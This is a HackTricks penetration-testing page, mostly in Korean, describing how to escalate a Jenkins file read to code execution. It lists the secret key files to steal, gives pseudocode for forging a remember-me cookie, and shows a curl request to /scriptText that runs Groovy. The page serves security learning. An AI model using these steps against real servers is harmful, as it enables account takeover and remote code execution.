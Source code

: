 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

이 블로그 게시물에서는 Jenkins의 Local File Inclusion 취약점을 RCE로 변환하는 훌륭한 방법을 찾을 수 있습니다: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

이것은 임의의 쿠키를 악용하여 RCE를 얻는 게시물의 요약입니다. 제가 직접 요약을 작성할 시간이 생길 때까지입니다:

### Attack Prerequisites

* **Feature Requirement:** "Remember me"가 활성화되어 있어야 합니다 (기본 설정).
* **Access Levels:** 공격자는 Overall/Read 권한이 필요합니다.
* **Secret Access:** 주요 파일에서 이진 및 텍스트 콘텐츠를 읽을 수 있는 능력.

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

* 각 사용자에 대한 `$JENKINS_HOME/users/*.xml`에서 사용자 구성 및 비밀을 액세스하여 다음을 수집합니다:
* **Username**
* **User seed**
* **Timestamp**
* **Password hash**

**Secret Key Extraction**

* 쿠키 서명을 위해 사용되는 암호화 키를 추출합니다:
* **Secret Key:** `$JENKINS_HOME/secret.key`
* **Master Key:** `$JENKINS_HOME/secrets/master.key`
* **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

*   **토큰 만료 시간 계산:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // 현재 시간에 1시간 추가
```
{% endcode %}
*   **토큰을 위한 데이터 연결:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**MAC Key Decryption**

*   **MAC Key 파일 복호화:**

```javascript
key = toAes128Key(masterKey)  // 마스터 키를 AES128 키 형식으로 변환
decrypted = AES.decrypt(macFile, key)  // .mac 파일 복호화
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

*   **HMAC SHA256 계산:**

```javascript
mac = HmacSHA256(token, macKey)  // 토큰과 MAC 키를 사용하여 HMAC 계산
tokenSignature = bytesToHexString(mac)  // MAC을 16진수 문자열로 변환
```

**Cookie Encoding**

*   **최종 쿠키 생성:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // 쿠키 데이터를 Base64로 인코딩
```
{% endcode %}

#### Step 3: Code Execution

**Session Authentication**

* **CSRF 및 세션 토큰 가져오기:**
* `/crumbIssuer/api/json`에 요청을 보내 `Jenkins-Crumb`를 얻습니다.
* 응답에서 `JSESSIONID`를 캡처하여 remember-me 쿠키와 함께 사용합니다.

**Command Execution Request**

*   **Groovy 스크립트로 POST 요청 보내기:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* Groovy 스크립트는 시스템 수준의 명령이나 Jenkins 환경 내에서 다른 작업을 실행하는 데 사용할 수 있습니다.

제공된 curl 명령 예시는 임의의 코드를 안전하게 실행하기 위해 필요한 헤더와 쿠키로 Jenkins에 요청을 보내는 방법을 보여줍니다.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
